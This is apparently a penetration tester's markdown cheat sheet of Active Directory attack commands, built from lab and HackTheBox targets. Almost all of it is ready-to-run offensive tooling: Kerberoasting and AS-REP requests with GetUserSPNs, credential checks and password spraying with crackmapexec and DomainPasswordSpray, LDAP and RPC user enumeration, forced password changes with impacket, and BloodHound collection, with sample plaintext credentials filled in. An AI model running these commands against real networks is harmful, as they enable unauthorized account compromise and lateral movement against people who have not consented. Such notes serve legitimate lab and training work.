 		GetUserSPNs.py -no-preauth jjones (not preauth user) -request -usersfile ../usernames.txt rebound.htb/ -dc-ip 10.10.11.231

* validate creds

		rdp, winrm, smb
   		crackmapexec rdp 192.168.50.110 -u 'nancy.carline' -p 'cowboys'

* local admin
  
		crackmapexec smb 192.168.50.110 -u 'Administrator' -p 'Password321' --local-auth 

* Users auth on host

  		sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
  
* Password policies
   
		crackmapexec smb 192.168.50.110 -u 'albertina.albertina' -p animal --pass-pol 
* Password Spray

  		crackmapexec smb 192.168.50.110 -u users.txt -p passwords.txt --continue-on-success

  		(in windows)
  		https://github.com/dafthack/DomainPasswordSpray

  		Import-Module .\DomainPasswordSpray.ps1
		Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
  
* Ldapdomaindump (1 05)

		ldapdomaindump -u 'vd.local\albertina.albertina' -p animal 192.168.50.110 
		from users.json bloodhount 
		cat 20240201210210_users.json|jq '.data[].Properties | .samaccountname + ":" + .description' -r

* Description whitch RPCCLIENT

  		rpcclient -U '' -N  10.10.10.169                                                 
		rpcclient $> querydispinfo
  
* Change Password

 	   	impacket-changepasswd 'vd.local/lamont.sibeal:passwd'@192.168.50.110 -newpass 'Password123'

* Bloodhoundlist 

		bloodhound-python -d vd.local -u lamont.sibeal -p Password123 -c all --dns-tcp -ns 192.168.50.110
		bloodhound-python -d htb.local -ns 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' -c all
		bloodhound-python -u ldap_monitor -p '1GR8t@$$4u' -d rebound.htb -dc dc01.rebound.htb --zip -c Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn -ns 10.10.11.231
		
		Запуск

		cd /usr/bin && sudo ./neo4j console

		cd /home/max/BloodHound-linux-x64_new && ./BloodHound --no-sandbox
  
  		cat 20240201210210_users.json|jq '.data[].Properties | .samaccountname + ":" + .description' -r
* spn

		impacket-GetUserSPNs -dc-ip 192.168.50.110 vd.local/arly.ayn:Password123 -request
